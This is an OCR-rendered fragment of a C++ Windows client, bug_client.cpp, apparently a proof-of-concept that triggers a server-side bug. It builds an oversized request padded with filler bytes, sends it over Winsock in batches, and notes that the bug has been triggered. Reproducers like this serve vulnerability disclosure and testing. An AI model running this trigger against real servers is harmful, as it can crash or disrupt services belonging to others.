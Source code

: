 ```
    memcpy(pReq1, req1, strlen(req1));
    memset(&pReq1[strlen(req1)], 'a', sz - strlen(req1));
    pReq1[sz - 2] = '\n';
    pReq1[sz - 1] = 0;

#endif

    WSABUF w;
    ULONG firstBatch = static_cast<ULONG>(min(sz,0x40000000));
    w.buf = pReq1; w.len = firstBatch;
    DWORD bytesSent = 0;

    iResult = WSASend(serverSocket, &w, 1, &bytesSent, 0, NULL, NULL);
    if (iResult == SOCKET_ERROR) {
        closesocket(serverSocket);
        freeaddrinfo(result);
        WSACleanup();
        return 1;
    }

    Sleep(1000);

    if (firstBatch < sz) {
        w.buf = pReq1 + firstBatch;
        w.len = static_cast<ULONG>(sz - firstBatch);
        iResult = WSASend(serverSocket, &w, 1, &bytesSent, 0, NULL, NULL);
        if (iResult == SOCKET_ERROR) {
            closesocket(serverSocket);
            freeaddrinfo(result);
            WSACleanup();
            return 1;
        }
    }

// Receive and throw away the response.

    char recvBuf[65536];

    iResult = recv(serverSocket, recvBuf, sizeof(recvBuf), 0);
    closesocket(serverSocket);

// The bug has been triggered. Cleanup and exit.

    closesocket(serverSocket);
    freeaddrinfo(result);
    WSACleanup();

    return 0;
}
-------- bug_client.cpp ---------------------------------------------------- 
```
